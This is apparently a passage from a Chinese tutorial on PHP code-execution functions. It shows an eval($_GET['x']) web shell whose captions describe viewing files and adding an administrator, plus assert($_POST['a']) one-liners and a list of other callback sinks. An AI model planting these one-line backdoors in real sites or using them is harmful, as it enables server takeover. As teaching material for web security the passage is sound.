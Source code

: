 eval() 函数**把字符串按照 PHP 代码来计算**。该字符串必须是合法的 PHP 代码，且必须以分号结尾。如果没有在代码字符串中调用 return 语句，则返回 NULL。如果代码中存在解析错误，则 eval() 函数返回 false。

在服务器上创建一下代码test.php：

```php
<?php，
$code=$_GET['x'] ; 
eval($code);
?>
```

查看文件：

![image-20220804103612237](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220804103612237.png)

查看管理员：

![img](https://i0.hdslb.com/bfs/article/1809d2c695ee31ad7df983396c96fe9f2e56fb5a.png@831w_98h_progressive.webp)

添加管理员：

![img](https://i0.hdslb.com/bfs/article/42c39426697b4bf2945f925da0de0748f9bc0fce.png@696w_65h_progressive.webp)

#### assert()

```php
<?php assert($_POST['a']);?>

// 支持动态调用，但是在php7.0.29之后的版本不支持动态调用
<?php
$a = 'assert';
$a($_POST['a']);
?
```

#### preg_replace()

此函数的作用是对一个字符串进行正则处理。

```php
mixed preg_replace ( mixed $ pattern , mixed $ replacement , mixed $ subject [, int $ limit = -1 [, int &$ count ]] )
```

#### call_user_func()

把第一参数作为回调函数

#### call_user_func_array()

调用回到函数，并把第一个数组参数作为回到函数的参数

#### array_ map()

为数组的每个元素应用回调函数
